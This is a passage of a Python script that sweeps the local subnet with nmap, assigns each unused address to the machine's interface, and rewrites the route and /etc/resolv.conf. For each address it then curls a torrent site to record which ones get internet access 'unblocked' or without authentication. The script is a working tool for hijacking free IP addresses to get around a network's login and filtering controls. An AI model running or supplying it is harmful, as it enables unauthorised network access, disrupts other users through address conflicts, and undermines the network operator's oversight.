print(num_ip)

num_network = int(bin_broadcast,2) - num_ip
bin_network = bin(num_network)[2:].zfill(32)
act_network = str(int(bin_network[:8],2)) + '.' + str(int(bin_network[8:16],2)) + '.' +str(int(bin_network[16:24],2)) + '.' +str(int(bin_network[24:],2))

list = []

for i in range(num_ip):
    addr = num_network + i + 1
    bin_addr = bin(addr)[2:].zfill(32)
    ip_addr = str(int(bin_addr[:8],2)) + '.' + str(int(bin_addr[8:16],2)) + '.' +str(int(bin_addr[16:24],2)) + '.' +str(int(bin_addr[24:],2))
    list.append(ip_addr)

# list contains all the ip to check from the current network
#print(list)

print("nmap -n -sn  " + act_network + '/' + str(mask) + " -oG - | awk '/Up$/{print $2}'")
ip_string = execute("nmap -n -sn  " + act_network + '/' + str(mask) + " -oG - | awk '/Up$/{print $2}'")
list_up = ip_string.split('\n')[:-1]

free_ip =[]

for ip in list:
   try:
       list_up.index(ip)
   except ValueError:
       free_ip.append(ip)


# uncomment this if u want to check from manual ip address space

#for i in range(4):
#    oct = '10.10.' + str(48 + i)
#    for j in range(255):
#        ip = oct +'.' + str(j + 1)
#        if ip != '10.10.51.255':
#            try:
#                list_up.index(ip)
#                #print(ip + " this can't be assigned \n")
#            except ValueError :
#                free_ip.append(ip)

print(len(free_ip))

# creating a new file
file = open('open_ips','w')
file.close()

for ipaddress in free_ip:
    execute('ifconfig ' + interface + ' ' + ipaddress + ' netmask ' + netmask)
    out = execute('ping ' + gateway  +' -c 1 -W 1 | grep ttl ')
    if len(out) == 0 :
        print("can't ping gateway with " + ipaddress)
        execute('iwconfig ' + interface + ' ESSID ' + ESSID)
        out = execute('ping ' + gateway  +' -c 1 -W 1 | grep ttl ')
    if out:
        execute('route add default gw ' + gateway)
        execute("echo -e 'nameserver 8.8.8.8'>> /etc/resolv.conf")
        out = execute("ping 8.8.8.8 -c 1 -W 1 | grep ttl ")
        if out:
            out = execute('curl --silent http://www.torrentz.eu/ | grep -e User -e Group')
            file = open('open_ips','a')
            try:
                print(out.split('\n')[0] + '  ' + out.split('\n')[1] + '  ' + ipaddress)
                file.write(out.split('\n')[0] + '  ' + out.split('\n')[1] + '  ' + ipaddress + '\n')
            except IndexError:
                print('unblocked ip ' + ipaddress )
                file.write('unblocked ip ' + ipaddress + '\n')
            file.close()
        else:
            print(ipaddress + ' is free but not with authenication')


```
